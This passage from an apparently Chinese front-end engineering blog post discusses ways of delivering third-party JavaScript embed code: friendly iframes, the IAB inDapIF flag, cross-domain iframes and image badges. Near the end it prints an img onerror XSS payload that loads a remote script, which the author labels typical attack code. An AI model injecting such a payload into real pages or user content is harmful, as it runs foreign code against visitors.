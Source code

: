 上述代码分为两个部分：

1. 创建了一个隐藏的Friendly Iframe然后插入到主页面中
2. 在iframe onload之后加载javascript脚本

这样加载Javascript，浏览器就不会出现loading，提升普通用户的体验。当然这还有一个附带的好处，第三方的Javascript代码在独立的iframe中运行，不会与主页面中的JS相互干扰。毕竟即使现在还是有不少小众网站会选择扩展Native对象的方法。作者本人就遇到过有网站开发者修改`Array.prototype.push`方法的情况。

当然这有方法还是有缺陷的：投放代码本身太过复杂，网页开发者在实际使用时容易有问题。个人推荐的做法是：如何加载是网站开发者来决定的事情，第三方Javascript脚本应该要支持能想得到的各种奇技淫巧。美国互动广告局（The Interactive Advertising Bureau，简称IAB）提出过一个异步加载广告代码的Best Practice。里面提到了用变量 inDapIF 作为标志，提示Javascript脚本在动态iframe内部执行。所以我们可以用如下方法来判断：

```javascript
var GLOBAL = window;
if (window.parent !== window && window['inDapIF']) {
    GLOBAL = window.parent;
}

// 使用GLOBAL替代window
// TODO
```

## 其他类型的投放代码

有些第三方服务不需要直接获取页面的数据，它们只需要有展示自己内容的区域即可，比如：

```html
<iframe height='300' scrolling='no' src='//codepen.io/zmmbreeze/embed/vLbpa/?height=300&theme-id=20219&default-tab=css,result&embed-version=2' frameborder='no' allowtransparency='true' allowfullscreen='true' style='width: 100%;'>See the Pen <a href='http://codepen.io/zmmbreeze/pen/vLbpa/'>DOWN-TO-THE-LINE control for radical web typography</a> by mzhou (<a href='http://codepen.io/zmmbreeze'>@zmmbreeze</a>) on <a href='http://codepen.io'>CodePen</a>.
</iframe>
```

 因为使用了不同域名下的iframe，所以是在隔离环境内运行第三方代码。这样第三方代码就不会和开发者站点的代码冲突。而且因为域名不同，天然提供安全性的保障，第三方代码不能获取或修改开发者站点的重要信息。缺点也很明显：就是能做的事情仅限于iframe内部。比较适合不需要访问页面就可以提供内容的需求。

自从Web 2.0开始，UGC类型的网站越来越多，用户可以自主黏贴文字甚至是HTML代码到网站中去，例如社交网站的简介。所以有的时候第三方服务的使用者并直接是网站开发者，而是网站的用户。网站为了安全一般不会让用户直接贴script表情或者是iframe等特殊HTML标签。所以有些第三方服务提供的投放代码仅仅是一个img标签，将需要展示的内容放在图片中。如果你经常浏览github，你会发现有个集成测试的工具叫做Travis CI。它提供了一段投放代码用于展示开源库的测试状态，如下：

```html
<img src="https://travis-ci.org/zmmbreeze/lining.js.svg?branch=master"/>
```

至此头脑较为发散的同学可能已经想到如下的投放代码了：

```html
<img src="#" onerror="(function (d) {var s = d.createElement('script');s.src='http://bqq.gtimg.com/da/i.js';d.getElementsByTagName('head')[0].appendChild(s);})(document)" />
```

虽然这是一段典型的XSS攻击代码，但是它也可以称得上是一种投放代码......

> 最后说明下：这里没有提到用`new Image().src`方式（或者其他类似手段）来达到预先异步下载Javascript文件的目的，然后利用了浏览器缓存再次实际下载Javascript文件的时候就直接从缓存里面拉取的方式。因为第三方的Javascript代码基本为了保持文件及时更新，都不会设置很长的缓存，甚至没有缓存。所以这些方法不再讨论的行列里面。
